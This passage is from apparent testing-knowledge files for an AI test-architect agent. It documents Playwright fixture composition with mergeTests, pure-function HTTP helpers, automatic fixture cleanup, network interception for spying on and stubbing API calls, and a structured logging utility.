// playwright/support/helpers/api-request.ts
// Step 1: Pure function (ALWAYS FIRST!)
type ApiRequestParams = {
  request: APIRequestContext;
  method: 'GET' | 'POST' | 'PUT' | 'DELETE';
  url: string;
  data?: unknown;
  headers?: Record<string, string>;
};

export async function apiRequest({
  request,
  method,
  url,
  data,
  headers = {}
}: ApiRequestParams) {
  const response = await request.fetch(url, {
    method,
    data,
    headers: {
      'Content-Type': 'application/json',
      ...headers
    }
  });

  if (!response.ok()) {
    throw new Error(`API request failed: ${response.status()} ${await response.text()}`);
  }

  return response.json();
}

// Step 2: Fixture wrapper
// playwright/support/fixtures/api-request-fixture.ts
import { test as base } from '@playwright/test';
import { apiRequest } from '../helpers/api-request';

export const test = base.extend<{ apiRequest: typeof apiRequest }>({
  apiRequest: async ({ request }, use) => {
    // Inject framework dependency, expose pure function
    await use((params) => apiRequest({ request, ...params }));
  }
});

// Step 3: Package exports for reusability
// package.json
{
  "exports": {
    "./api-request": "./playwright/support/helpers/api-request.ts",
    "./api-request/fixtures": "./playwright/support/fixtures/api-request-fixture.ts"
  }
}
```

**Key Points**:

- Pure function is unit-testable without Playwright running
- Framework dependency (`request`) injected at fixture boundary
- Fixture exposes the pure function to test context
- Package subpath exports enable `import { apiRequest } from 'my-fixtures/api-request'`

### Example 2: Composable Fixture System with mergeTests

**Context**: When building comprehensive test capabilities, compose multiple focused fixtures instead of creating monolithic helper classes. Each fixture provides one capability.

**Implementation**:

```typescript
// playwright/support/fixtures/merged-fixtures.ts
import { test as base, mergeTests } from '@playwright/test';
import { test as apiRequestFixture } from './api-request-fixture';
import { test as networkFixture } from './network-fixture';
import { test as authFixture } from './auth-fixture';
import { test as logFixture } from './log-fixture';

// Compose all fixtures for comprehensive capabilities
export const test = mergeTests(base, apiRequestFixture, networkFixture, authFixture, logFixture);

export { expect } from '@playwright/test';

// Example usage in tests:
// import { test, expect } from './support/fixtures/merged-fixtures';
//
// test('user can create order', async ({ page, apiRequest, auth, network }) => {
//   await auth.loginAs('customer@example.com');
//   await network.interceptRoute('POST', '**/api/orders', { id: 123 });
//   await page.goto('/checkout');
//   await page.click('[data-testid="submit-order"]');
//   await expect(page.getByText('Order #123')).toBeVisible();
// });
```

**Individual Fixture Examples**:

```typescript
// network-fixture.ts
export const test = base.extend({
  network: async ({ page }, use) => {
    const interceptedRoutes = new Map();

    const interceptRoute = async (method: string, url: string, response: unknown) => {
      await page.route(url, (route) => {
        if (route.request().method() === method) {
          route.fulfill({ body: JSON.stringify(response) });
        }
      });
      interceptedRoutes.set(`${method}:${url}`, response);
    };

    await use({ interceptRoute });

    // Cleanup
    interceptedRoutes.clear();
  },
});

// auth-fixture.ts
export const test = base.extend({
  auth: async ({ page, context }, use) => {
    const loginAs = async (email: string) => {
      // Use API to setup auth (fast!)
      const token = await getAuthToken(email);
      await context.addCookies([
        {
          name: 'auth_token',
          value: token,
          domain: 'localhost',
          path: '/',
        },
      ]);
    };

    await use({ loginAs });
  },
});
```

**Key Points**:

- `mergeTests` combines fixtures without inheritance
- Each fixture has single responsibility (network, auth, logs)
- Tests import merged fixture and access all capabilities
- No coupling between fixtures—add/remove freely

### Example 3: Framework-Agnostic HTTP Helper

**Context**: When building HTTP helpers, keep them framework-agnostic. Accept all params explicitly so they work in unit tests, Playwright, Cypress, or any context.

**Implementation**:

```typescript
// shared/helpers/http-helper.ts
// Pure, framework-agnostic function
type HttpHelperParams = {
  baseUrl: string;
  endpoint: string;
  method: 'GET' | 'POST' | 'PUT' | 'DELETE';
  body?: unknown;
  headers?: Record<string, string>;
  token?: string;
};

export async function makeHttpRequest({ baseUrl, endpoint, method, body, headers = {}, token }: HttpHelperParams): Promise<unknown> {
  const url = `${baseUrl}${endpoint}`;
  const requestHeaders = {
    'Content-Type': 'application/json',
    ...(token && { Authorization: `Bearer ${token}` }),
    ...headers,
  };

  const response = await fetch(url, {
    method,
    headers: requestHeaders,
    body: body ? JSON.stringify(body) : undefined,
  });

  if (!response.ok) {
    const errorText = await response.text();
    throw new Error(`HTTP ${method} ${url} failed: ${response.status} ${errorText}`);
  }

  return response.json();
}

// Playwright fixture wrapper
// playwright/support/fixtures/http-fixture.ts
import { test as base } from '@playwright/test';
import { makeHttpRequest } from '../../shared/helpers/http-helper';

export const test = base.extend({
  httpHelper: async ({}, use) => {
    const baseUrl = process.env.API_BASE_URL || 'http://localhost:3000';

    await use((params) => makeHttpRequest({ baseUrl, ...params }));
  },
});

// Cypress command wrapper
// cypress/support/commands.ts
import { makeHttpRequest } from '../../shared/helpers/http-helper';

Cypress.Commands.add('apiRequest', (params) => {
  const baseUrl = Cypress.env('API_BASE_URL') || 'http://localhost:3000';
  return cy.wrap(makeHttpRequest({ baseUrl, ...params }));
});
```

**Key Points**:

- Pure function uses only standard `fetch`, no framework dependencies
- Unit tests call `makeHttpRequest` directly with all params
- Playwright and Cypress wrappers inject framework-specific config
- Same logic runs everywhere—zero duplication

### Example 4: Fixture Cleanup Pattern

**Context**: When fixtures create resources (data, files, connections), ensure automatic cleanup in fixture teardown. Tests must not leak state.

**Implementation**:

```typescript
// playwright/support/fixtures/database-fixture.ts
import { test as base } from '@playwright/test';
import { seedDatabase, deleteRecord } from '../helpers/db-helpers';

type DatabaseFixture = {
  seedUser: (userData: Partial<User>) => Promise<User>;
  seedOrder: (orderData: Partial<Order>) => Promise<Order>;
};

export const test = base.extend<DatabaseFixture>({
  seedUser: async ({}, use) => {
    const createdUsers: string[] = [];

    const seedUser = async (userData: Partial<User>) => {
      const user = await seedDatabase('users', userData);
      createdUsers.push(user.id);
      return user;
    };

    await use(seedUser);

    // Auto-cleanup: Delete all users created during test
    for (const userId of createdUsers) {
      await deleteRecord('users', userId);
    }
    createdUsers.length = 0;
  },

  seedOrder: async ({}, use) => {
    const createdOrders: string[] = [];

    const seedOrder = async (orderData: Partial<Order>) => {
      const order = await seedDatabase('orders', orderData);
      createdOrders.push(order.id);
      return order;
    };

    await use(seedOrder);

    // Auto-cleanup: Delete all orders
    for (const orderId of createdOrders) {
      await deleteRecord('orders', orderId);
    }
    createdOrders.length = 0;
  },
});

// Example usage:
// test('user can place order', async ({ seedUser, seedOrder, page }) => {
//   const user = await seedUser({ email: 'test@example.com' });
//   const order = await seedOrder({ userId: user.id, total: 100 });
//
//   await page.goto(`/orders/${order.id}`);
//   await expect(page.getByText('Order Total: $100')).toBeVisible();
//
//   // No manual cleanup needed—fixture handles it automatically
// });
```

**Key Points**:

- Track all created resources in array during test execution
- Teardown (after `use()`) deletes all tracked resources
- Tests don't manually clean up—happens automatically
- Prevents test pollution and flakiness from shared state

### Anti-Pattern: Inheritance-Based Page Objects

**Problem**:

```typescript
// ❌ BAD: Page Object Model with inheritance
class BasePage {
  constructor(public page: Page) {}

  async navigate(url: string) {
    await this.page.goto(url);
  }

  async clickButton(selector: string) {
    await this.page.click(selector);
  }
}

class LoginPage extends BasePage {
  async login(email: string, password: string) {
    await this.navigate('/login');
    await this.page.fill('#email', email);
    await this.page.fill('#password', password);
    await this.clickButton('#submit');
  }
}

class AdminPage extends LoginPage {
  async accessAdminPanel() {
    await this.login('admin@example.com', 'admin123');
    await this.navigate('/admin');
  }
}
```

**Why It Fails**:

- Changes to `BasePage` break all descendants (`LoginPage`, `AdminPage`)
- `AdminPage` inherits unnecessary `login` details—tight coupling
- Cannot compose capabilities (e.g., admin + reporting features require multiple inheritance)
- Hard to test `BasePage` methods in isolation
- Hidden state in class instances leads to unpredictable behavior

**Better Approach**: Use pure functions + fixtures

```typescript
// ✅ GOOD: Pure functions with fixture composition
// helpers/navigation.ts
export async function navigate(page: Page, url: string) {
  await page.goto(url);
}

// helpers/auth.ts
export async function login(page: Page, email: string, password: string) {
  await page.fill('[data-testid="email"]', email);
  await page.fill('[data-testid="password"]', password);
  await page.click('[data-testid="submit"]');
}

// fixtures/admin-fixture.ts
export const test = base.extend({
  adminPage: async ({ page }, use) => {
    await login(page, 'admin@example.com', 'admin123');
    await navigate(page, '/admin');
    await use(page);
  },
});

// Tests import exactly what they need—no inheritance
```

## Integration Points

- **Used in workflows**: `*atdd` (test generation), `*automate` (test expansion), `*framework` (initial setup)
- **Related fragments**:
  - `data-factories.md` - Factory functions for test data
  - `network-first.md` - Network interception patterns
  - `test-quality.md` - Deterministic test design principles

## Helper Function Reuse Guidelines

When deciding whether to create a fixture, follow these rules:

- **3+ uses** → Create fixture with subpath export (shared across tests/projects)
- **2-3 uses** → Create utility module (shared within project)
- **1 use** → Keep inline (avoid premature abstraction)
- **Complex logic** → Factory function pattern (dynamic data generation)

_Source: Murat Testing Philosophy (lines 74-122), enterprise production patterns, Playwright fixture docs._
```

## File: `src/agents/bmad-tea/resources/knowledge/fixtures-composition.md`
```markdown
# Fixtures Composition with mergeTests

## Principle

Combine multiple Playwright fixtures using `mergeTests` to create a unified test object with all capabilities. Build composable test infrastructure by merging playwright-utils fixtures with custom project fixtures.

## Rationale

Using fixtures from multiple sources requires combining them:

- Importing from multiple fixture files is verbose
- Name conflicts between fixtures
- Duplicate fixture definitions
- No clear single test object

Playwright's `mergeTests` provides:

- **Single test object**: All fixtures in one import
- **Conflict resolution**: Handles name collisions automatically
- **Composition pattern**: Mix utilities, custom fixtures, third-party fixtures
- **Type safety**: Full TypeScript support for merged fixtures
- **Maintainability**: One place to manage all fixtures

## Pattern Examples

### Example 1: Basic Fixture Merging

**Context**: Combine multiple playwright-utils fixtures into single test object.

**Implementation**:

```typescript
// playwright/support/merged-fixtures.ts
import { mergeTests } from '@playwright/test';
import { test as apiRequestFixture } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { test as authFixture } from '@seontechnologies/playwright-utils/auth-session/fixtures';
import { test as recurseFixture } from '@seontechnologies/playwright-utils/recurse/fixtures';

// Merge all fixtures
export const test = mergeTests(apiRequestFixture, authFixture, recurseFixture);

export { expect } from '@playwright/test';
```

```typescript
// In your tests - import from merged fixtures
import { test, expect } from '../support/merged-fixtures';

test('all utilities available', async ({
  apiRequest, // From api-request fixture
  authToken, // From auth fixture
  recurse, // From recurse fixture
}) => {
  // All fixtures available in single test signature
  const { body } = await apiRequest({
    method: 'GET',
    path: '/api/protected',
    headers: { Authorization: `Bearer ${authToken}` },
  });

  await recurse(
    () => apiRequest({ method: 'GET', path: `/status/${body.id}` }),
    (res) => res.body.ready === true,
  );
});
```

**Key Points**:

- Create one `merged-fixtures.ts` per project
- Import test object from merged fixtures in all test files
- All utilities available without multiple imports
- Type-safe access to all fixtures

### Example 2: Combining with Custom Fixtures

**Context**: Add project-specific fixtures alongside playwright-utils.

**Implementation**:

```typescript
// playwright/support/custom-fixtures.ts - Your project fixtures
import { test as base } from '@playwright/test';
import { createUser } from './factories/user-factory';
import { seedDatabase } from './helpers/db-seeder';

export const test = base.extend({
  // Custom fixture 1: Auto-seeded user
  testUser: async ({ request }, use) => {
    const user = await createUser({ role: 'admin' });
    await seedDatabase('users', [user]);
    await use(user);
    // Cleanup happens automatically
  },

  // Custom fixture 2: Database helpers
  db: async ({}, use) => {
    await use({
      seed: seedDatabase,
      clear: () => seedDatabase.truncate(),
    });
  },
});

// playwright/support/merged-fixtures.ts - Combine everything
import { mergeTests } from '@playwright/test';
import { test as apiRequestFixture } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { test as authFixture } from '@seontechnologies/playwright-utils/auth-session/fixtures';
import { test as customFixtures } from './custom-fixtures';

export const test = mergeTests(
  apiRequestFixture,
  authFixture,
  customFixtures, // Your project fixtures
);

export { expect } from '@playwright/test';
```

```typescript
// In tests - all fixtures available
import { test, expect } from '../support/merged-fixtures';

test('using mixed fixtures', async ({
  apiRequest, // playwright-utils
  authToken, // playwright-utils
  testUser, // custom
  db, // custom
}) => {
  // Use playwright-utils
  const { body } = await apiRequest({
    method: 'GET',
    path: `/api/users/${testUser.id}`,
    headers: { Authorization: `Bearer ${authToken}` },
  });

  // Use custom fixture
  await db.clear();
});
```

**Key Points**:

- Custom fixtures extend `base` test
- Merge custom with playwright-utils fixtures
- All available in one test signature
- Maintainable separation of concerns

### Example 3: Full Utility Suite Integration

**Context**: Production setup with all core playwright-utils and custom fixtures.

**Implementation**:

```typescript
// playwright/support/merged-fixtures.ts
import { mergeTests } from '@playwright/test';

// Playwright utils fixtures
import { test as apiRequestFixture } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { test as authFixture } from '@seontechnologies/playwright-utils/auth-session/fixtures';
import { test as interceptFixture } from '@seontechnologies/playwright-utils/intercept-network-call/fixtures';
import { test as recurseFixture } from '@seontechnologies/playwright-utils/recurse/fixtures';
import { test as networkRecorderFixture } from '@seontechnologies/playwright-utils/network-recorder/fixtures';

// Custom project fixtures
import { test as customFixtures } from './custom-fixtures';

// Merge everything
export const test = mergeTests(apiRequestFixture, authFixture, interceptFixture, recurseFixture, networkRecorderFixture, customFixtures);

export { expect } from '@playwright/test';
```

```typescript
// In tests
import { test, expect } from '../support/merged-fixtures';

test('full integration', async ({
  page,
  context,
  apiRequest,
  authToken,
  interceptNetworkCall,
  recurse,
  networkRecorder,
  testUser, // custom
}) => {
  // All utilities + custom fixtures available
  await networkRecorder.setup(context);

  const usersCall = interceptNetworkCall({ url: '**/api/users' });

  await page.goto('/users');
  const { responseJson } = await usersCall;

  expect(responseJson).toContainEqual(expect.objectContaining({ id: testUser.id }));
});
```

**Key Points**:

- One merged-fixtures.ts for entire project
- Combine all playwright-utils you use
- Add custom project fixtures
- Single import in all test files

### Example 4: Fixture Override Pattern

**Context**: Override default options for specific test files or describes.

**Implementation**:

```typescript
import { test, expect } from '../support/merged-fixtures';

// Override auth options for entire file
test.use({
  authOptions: {
    userIdentifier: 'admin',
    environment: 'staging',
  },
});

test('uses admin on staging', async ({ authToken }) => {
  // Token is for admin user on staging environment
});

// Override for specific describe block
test.describe('manager tests', () => {
  test.use({
    authOptions: {
      userIdentifier: 'manager',
    },
  });

  test('manager can access reports', async ({ page }) => {
    // Uses manager token
    await page.goto('/reports');
  });
});
```

**Key Points**:

- `test.use()` overrides fixture options
- Can override at file or describe level
- Options merge with defaults
- Type-safe overrides

### Example 5: Avoiding Fixture Conflicts

**Context**: Handle name collisions when merging fixtures with same names.

**Implementation**:

```typescript
// If two fixtures have same name, last one wins
import { test as fixture1 } from './fixture1'; // has 'user' fixture
import { test as fixture2 } from './fixture2'; // also has 'user' fixture

const test = mergeTests(fixture1, fixture2);
// fixture2's 'user' overrides fixture1's 'user'

// Better: Rename fixtures before merging
import { test as base } from '@playwright/test';
import { test as fixture1 } from './fixture1';

const fixture1Renamed = base.extend({
  user1: fixture1._extend.user, // Rename to avoid conflict
});

const test = mergeTests(fixture1Renamed, fixture2);
// Now both 'user1' and 'user' available

// Best: Design fixtures without conflicts
// - Prefix custom fixtures: 'myAppUser', 'myAppDb'
// - Playwright-utils uses descriptive names: 'apiRequest', 'authToken'
```

**Key Points**:

- Last fixture wins in conflicts
- Rename fixtures to avoid collisions
- Design fixtures with unique names
- Playwright-utils uses descriptive names (no conflicts)

## Recommended Project Structure

```
playwright/
├── support/
│   ├── merged-fixtures.ts        # ⭐ Single test object for project
│   ├── custom-fixtures.ts        # Your project-specific fixtures
│   ├── auth/
│   │   ├── auth-fixture.ts       # Auth wrapper (if needed)
│   │   └── custom-auth-provider.ts
│   ├── fixtures/
│   │   ├── user-fixture.ts
│   │   ├── db-fixture.ts
│   │   └── api-fixture.ts
│   └── utils/
│       └── factories/
└── tests/
    ├── api/
    │   └── users.spec.ts          # import { test } from '../../support/merged-fixtures'
    ├── e2e/
    │   └── login.spec.ts          # import { test } from '../../support/merged-fixtures'
    └── component/
        └── button.spec.ts         # import { test } from '../../support/merged-fixtures'
```

## Benefits of Fixture Composition

**Compared to direct imports:**

```typescript
// ❌ Without mergeTests (verbose)
import { test as base } from '@playwright/test';
import { apiRequest } from '@seontechnologies/playwright-utils/api-request';
import { getAuthToken } from './auth';
import { createUser } from './factories';

test('verbose', async ({ request }) => {
  const token = await getAuthToken();
  const user = await createUser();
  const response = await apiRequest({ request, method: 'GET', path: '/api/users' });
  // Manual wiring everywhere
});

// ✅ With mergeTests (clean)
import { test } from '../support/merged-fixtures';

test('clean', async ({ apiRequest, authToken, testUser }) => {
  const { body } = await apiRequest({ method: 'GET', path: '/api/users' });
  // All fixtures auto-wired
});
```

**Reduction:** ~10 lines per test → ~2 lines

## Related Fragments

- `overview.md` - Installation and design principles
- `api-request.md`, `auth-session.md`, `recurse.md` - Utilities to merge
- `network-recorder.md`, `intercept-network-call.md`, `log.md` - Additional utilities

## Anti-Patterns

**❌ Importing test from multiple fixture files:**

```typescript
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';
// Also need auth...
import { test as authTest } from '@seontechnologies/playwright-utils/auth-session/fixtures';
// Name conflict! Which test to use?
```

**✅ Use merged fixtures:**

```typescript
import { test } from '../support/merged-fixtures';
// All utilities available, no conflicts
```

**❌ Merging too many fixtures (kitchen sink):**

```typescript
// Merging 20+ fixtures makes test signature huge
const test = mergeTests(...20 different fixtures)

test('my test', async ({ fixture1, fixture2, ..., fixture20 }) => {
  // Cognitive overload
})
```

**✅ Merge only what you actually use:**

```typescript
// Merge the 4-6 fixtures your project actually needs
const test = mergeTests(apiRequestFixture, authFixture, recurseFixture, customFixtures);
```
```

## File: `src/agents/bmad-tea/resources/knowledge/intercept-network-call.md`
```markdown
# Intercept Network Call Utility

## Principle

Intercept network requests with a single declarative call that returns a Promise. Automatically parse JSON responses, support both spy (observe) and stub (mock) patterns, and use powerful glob pattern matching for URL filtering.

## Rationale

Vanilla Playwright's network interception requires multiple steps:

- `page.route()` to setup, `page.waitForResponse()` to capture
- Manual JSON parsing
- Verbose syntax for conditional handling
- Complex filter predicates

The `interceptNetworkCall` utility provides:

- **Single declarative call**: Setup and wait in one statement
- **Automatic JSON parsing**: Response pre-parsed, strongly typed
- **Flexible URL patterns**: Glob matching with picomatch
- **Spy or stub modes**: Observe real traffic or mock responses
- **Concise API**: Reduces boilerplate by 60-70%

## Pattern Examples

### Example 1: Spy on Network (Observe Real Traffic)

**Context**: Capture and inspect real API responses for validation.

**Implementation**:

```typescript
import { test } from '@seontechnologies/playwright-utils/intercept-network-call/fixtures';

test('should spy on users API', async ({ page, interceptNetworkCall }) => {
  // Setup interception BEFORE navigation
  const usersCall = interceptNetworkCall({
    url: '**/api/users', // Glob pattern
  });

  await page.goto('/dashboard');

  // Wait for response and access parsed data
  const { responseJson, status } = await usersCall;

  expect(status).toBe(200);
  expect(responseJson).toHaveLength(10);
  expect(responseJson[0]).toHaveProperty('name');
});
```

**Key Points**:

- Intercept before navigation (critical for race-free tests)
- Returns Promise with `{ responseJson, status, requestBody }`
- Glob patterns (`**` matches any path segment)
- JSON automatically parsed

### Example 2: Stub Network (Mock Response)

**Context**: Mock API responses for testing UI behavior without backend.

**Implementation**:

```typescript
test('should stub users API', async ({ page, interceptNetworkCall }) => {
  const mockUsers = [
    { id: 1, name: 'Test User 1' },
    { id: 2, name: 'Test User 2' },
  ];

  const usersCall = interceptNetworkCall({
    url: '**/api/users',
    fulfillResponse: {
      status: 200,
      body: mockUsers,
    },
  });

  await page.goto('/dashboard');
  await usersCall;

  // UI shows mocked data
  await expect(page.getByText('Test User 1')).toBeVisible();
  await expect(page.getByText('Test User 2')).toBeVisible();
});
```

**Key Points**:

- `fulfillResponse` mocks the API
- No backend needed
- Test UI logic in isolation
- Status code and body fully controllable

### Example 3: Conditional Response Handling

**Context**: Different responses based on request method or parameters.

**Implementation**:

```typescript
test('conditional mocking', async ({ page, interceptNetworkCall }) => {
  await interceptNetworkCall({
    url: '**/api/data',
    handler: async (route, request) => {
      if (request.method() === 'POST') {
        // Mock POST success
        await route.fulfill({
          status: 201,
          body: JSON.stringify({ id: 'new-id', success: true }),
        });
      } else if (request.method() === 'GET') {
        // Mock GET with data
        await route.fulfill({
          status: 200,
          body: JSON.stringify([{ id: 1, name: 'Item' }]),
        });
      } else {
        // Let other methods through
        await route.continue();
      }
    },
  });

  await page.goto('/data-page');
});
```

**Key Points**:

- `handler` function for complex logic
- Access full `route` and `request` objects
- Can mock, continue, or abort
- Flexible for advanced scenarios

### Example 4: Error Simulation

**Context**: Testing error handling in UI when API fails.

**Implementation**:

```typescript
test('should handle API errors gracefully', async ({ page, interceptNetworkCall }) => {
  // Simulate 500 error
  const errorCall = interceptNetworkCall({
    url: '**/api/users',
    fulfillResponse: {
      status: 500,
      body: { error: 'Internal Server Error' },
    },
  });

  await page.goto('/dashboard');
  await errorCall;

  // Verify UI shows error state
  await expect(page.getByText('Failed to load users')).toBeVisible();
  await expect(page.getByTestId('retry-button')).toBeVisible();
});

// Simulate network timeout
test('should handle timeout', async ({ page, interceptNetworkCall }) => {
  await interceptNetworkCall({
    url: '**/api/slow',
    handler: async (route) => {
      // Never respond - simulates timeout
      await new Promise(() => {});
    },
  });

  await page.goto('/slow-page');

  // UI should show timeout error
  await expect(page.getByText('Request timed out')).toBeVisible({ timeout: 10000 });
});
```

**Key Points**:

- Mock error statuses (4xx, 5xx)
- Test timeout scenarios
- Validate error UI states
- No real failures needed

### Example 5: Order Matters - Intercept Before Navigate

**Context**: The interceptor must be set up before the network request occurs.

**Implementation**:

```typescript
// INCORRECT - interceptor set up too late
await page.goto('https://example.com'); // Request already happened
const networkCall = interceptNetworkCall({ url: '**/api/data' });
await networkCall; // Will hang indefinitely!

// CORRECT - Set up interception first
const networkCall = interceptNetworkCall({ url: '**/api/data' });
await page.goto('https://example.com');
const result = await networkCall;
```

This pattern follows the classic test spy/stub pattern:

1. Define the spy/stub (set up interception)
2. Perform the action (trigger the network request)
3. Assert on the spy/stub (await and verify the response)

### Example 6: Multiple Intercepts

**Context**: Intercepting different endpoints in same test - setup order is critical.

**Implementation**:

```typescript
test('multiple intercepts', async ({ page, interceptNetworkCall }) => {
  // Setup all intercepts BEFORE navigation
  const usersCall = interceptNetworkCall({ url: '**/api/users' });
  const productsCall = interceptNetworkCall({ url: '**/api/products' });
  const ordersCall = interceptNetworkCall({ url: '**/api/orders' });

  // THEN navigate
  await page.goto('/dashboard');

  // Wait for all (or specific ones)
  const [users, products] = await Promise.all([usersCall, productsCall]);

  expect(users.responseJson).toHaveLength(10);
  expect(products.responseJson).toHaveLength(50);
});
```

**Key Points**:

- Setup all intercepts before triggering actions
- Use `Promise.all()` to wait for multiple calls
- Order: intercept -> navigate -> await
- Prevents race conditions

### Example 7: Capturing Multiple Requests to the Same Endpoint

**Context**: Each `interceptNetworkCall` captures only the first matching request.

**Implementation**:

```typescript
// Capturing a known number of requests
const firstRequest = interceptNetworkCall({ url: '/api/data' });
const secondRequest = interceptNetworkCall({ url: '/api/data' });

await page.click('#load-data-button');

const firstResponse = await firstRequest;
const secondResponse = await secondRequest;

expect(firstResponse.status).toBe(200);
expect(secondResponse.status).toBe(200);

// Handling an unknown number of requests
const getDataRequestInterceptor = () =>
  interceptNetworkCall({
    url: '/api/data',
    timeout: 1000, // Short timeout to detect when no more requests are coming
  });

let currentInterceptor = getDataRequestInterceptor();
const allResponses = [];

await page.click('#load-multiple-data-button');

while (true) {
  try {
    const response = await currentInterceptor;
    allResponses.push(response);
    currentInterceptor = getDataRequestInterceptor();
  } catch (error) {
    // No more requests (timeout)
    break;
  }
}

console.log(`Captured ${allResponses.length} requests to /api/data`);
```

### Example 8: Using Timeout

**Context**: Set a timeout for waiting on a network request.

**Implementation**:

```typescript
const dataCall = interceptNetworkCall({
  method: 'GET',
  url: '/api/data-that-might-be-slow',
  timeout: 5000, // 5 seconds timeout
});

await page.goto('/data-page');

try {
  const { responseJson } = await dataCall;
  console.log('Data loaded successfully:', responseJson);
} catch (error) {
  if (error.message.includes('timeout')) {
    console.log('Request timed out as expected');
  } else {
    throw error;
  }
}
```

## URL Pattern Matching

The utility uses [picomatch](https://github.com/micromatch/picomatch) for powerful glob pattern matching, dramatically simplifying URL targeting:

**Supported glob patterns:**

```typescript
'**/api/users'; // Any path ending with /api/users
'/api/users'; // Exact match
'**/users/*'; // Any users sub-path
'**/api/{users,products}'; // Either users or products
'**/api/users?id=*'; // With query params
```

**Comparison with vanilla Playwright:**

```typescript
// Vanilla Playwright - complex predicate
const predicate = (response) => {
  const url = response.url();
  return url.endsWith('/api/users') || url.match(/\/api\/users\/\d+/) || (url.includes('/api/users/') && url.includes('/profile'));
};
page.waitForResponse(predicate);

// With interceptNetworkCall - simple glob patterns
interceptNetworkCall({ url: '/api/users' }); // Exact endpoint
interceptNetworkCall({ url: '/api/users/*' }); // User by ID pattern
interceptNetworkCall({ url: '/api/users/*/profile' }); // Specific sub-paths
interceptNetworkCall({ url: '/api/users/**' }); // Match all
```

## API Reference

### `interceptNetworkCall(options)`

| Parameter         | Type       | Description                                                           |
| ----------------- | ---------- | --------------------------------------------------------------------- |
| `page`            | `Page`     | Required when using direct import (not needed with fixture)           |
| `method`          | `string`   | Optional: HTTP method to match (e.g., 'GET', 'POST')                  |
| `url`             | `string`   | Optional: URL pattern to match (supports glob patterns via picomatch) |
| `fulfillResponse` | `object`   | Optional: Response to use when mocking                                |
| `handler`         | `function` | Optional: Custom handler function for the route                       |
| `timeout`         | `number`   | Optional: Timeout in milliseconds for the network request             |

### `fulfillResponse` Object

| Property  | Type                     | Description                                           |
| --------- | ------------------------ | ----------------------------------------------------- |
| `status`  | `number`                 | HTTP status code (default: 200)                       |
| `headers` | `Record<string, string>` | Response headers                                      |
| `body`    | `any`                    | Response body (will be JSON.stringified if an object) |

### Return Value

Returns a `Promise<NetworkCallResult>` with:

| Property       | Type       | Description                             |
| -------------- | ---------- | --------------------------------------- |
| `request`      | `Request`  | The intercepted request                 |
| `response`     | `Response` | The response (null if mocked)           |
| `responseJson` | `any`      | Parsed JSON response (if available)     |
| `status`       | `number`   | HTTP status code                        |
| `requestJson`  | `any`      | Parsed JSON request body (if available) |

## Comparison with Vanilla Playwright

| Vanilla Playwright                                          | intercept-network-call                                       |
| ----------------------------------------------------------- | ------------------------------------------------------------ |
| `await page.route('/api/users', route => route.continue())` | `const call = interceptNetworkCall({ url: '**/api/users' })` |
| `const resp = await page.waitForResponse('/api/users')`     | (Combined in single statement)                               |
| `const json = await resp.json()`                            | `const { responseJson } = await call`                        |
| `const status = resp.status()`                              | `const { status } = await call`                              |
| Complex filter predicates                                   | Simple glob patterns                                         |

**Reduction:** ~5-7 lines -> ~2-3 lines per interception

## Related Fragments

- `network-first.md` - Core pattern: intercept before navigate
- `network-recorder.md` - HAR-based offline testing
- `overview.md` - Fixture composition basics

## Anti-Patterns

**DON'T intercept after navigation:**

```typescript
await page.goto('/dashboard'); // Navigation starts
const usersCall = interceptNetworkCall({ url: '**/api/users' }); // Too late!
```

**DO intercept before navigate:**

```typescript
const usersCall = interceptNetworkCall({ url: '**/api/users' }); // First
await page.goto('/dashboard'); // Then navigate
const { responseJson } = await usersCall; // Then await
```

**DON'T ignore the returned Promise:**

```typescript
interceptNetworkCall({ url: '**/api/users' }); // Not awaited!
await page.goto('/dashboard');
// No deterministic wait - race condition
```

**DO always await the intercept:**

```typescript
const usersCall = interceptNetworkCall({ url: '**/api/users' });
await page.goto('/dashboard');
await usersCall; // Deterministic wait
```
```

## File: `src/agents/bmad-tea/resources/knowledge/log.md`
```markdown
# Log Utility

## Principle

Use structured logging that integrates with Playwright's test reports. Support object logging, test step decoration, and multiple log levels (info, step, success, warning, error, debug).

## Rationale

Console.log in Playwright tests has limitations:

- Not visible in HTML reports
- No test step integration
- No structured output
- Lost in terminal noise during CI

The `log` utility provides:

- **Report integration**: Logs appear in Playwright HTML reports
- **Test step decoration**: `log.step()` creates collapsible steps in UI
- **Object logging**: Automatically formats objects/arrays
- **Multiple levels**: info, step, success, warning, error, debug
- **Optional console**: Can disable console output but keep report logs

## Quick Start

```typescript
import { log } from '@seontechnologies/playwright-utils';

// Basic logging
await log.info('Starting test');
await log.step('Test step shown in Playwright UI');
await log.success('Operation completed');
await log.warning('Something to note');
await log.error('Something went wrong');
await log.debug('Debug information');
```

## Pattern Examples

### Example 1: Basic Logging Levels

**Context**: Log different types of messages throughout test execution.

**Implementation**:

```typescript
import { log } from '@seontechnologies/playwright-utils';

test('logging demo', async ({ page }) => {
  await log.step('Navigate to login page');
  await page.goto('/login');

  await log.info('Entering credentials');
  await page.fill('#username', 'testuser');

  await log.success('Login successful');

  await log.warning('Rate limit approaching');

  await log.debug({ userId: '123', sessionId: 'abc' });

  // Errors still throw but get logged first
  try {
    await page.click('#nonexistent');
  } catch (error) {
    await log.error('Click failed', false); // false = no console output
    throw error;
  }
});
```

**Key Points**:

- `step()` creates collapsible steps in Playwright UI
- `info()`, `success()`, `warning()` for different message types
- `debug()` for detailed data (objects/arrays)
- `error()` with optional console suppression
- All logs appear in test reports

### Example 2: Object and Array Logging

**Context**: Log structured data for debugging without cluttering console.

**Implementation**:

```typescript
test('object logging', async ({ apiRequest }) => {
  const { body } = await apiRequest({
    method: 'GET',
    path: '/api/users',
  });

  // Log array of objects
  await log.debug(body); // Formatted as JSON in report

  // Log specific object
  await log.info({
    totalUsers: body.length,
    firstUser: body[0]?.name,
    timestamp: new Date().toISOString(),
  });

  // Complex nested structures
  await log.debug({
    request: {
      method: 'GET',
      path: '/api/users',
      timestamp: Date.now(),
    },
    response: {
      status: 200,
      body: body.slice(0, 3), // First 3 items
    },
  });
});
```

**Key Points**:

- Objects auto-formatted as pretty JSON
- Arrays handled gracefully
- Nested structures supported
- All visible in Playwright report attachments

### Example 3: Test Step Organization

**Context**: Organize test execution into collapsible steps for better readability in reports.

**Implementation**:

```typescript
test('organized with steps', async ({ page, apiRequest }) => {
  await log.step('ARRANGE: Setup test data');
  const { body: user } = await apiRequest({
    method: 'POST',
    path: '/api/users',
    body: { name: 'Test User' },
  });

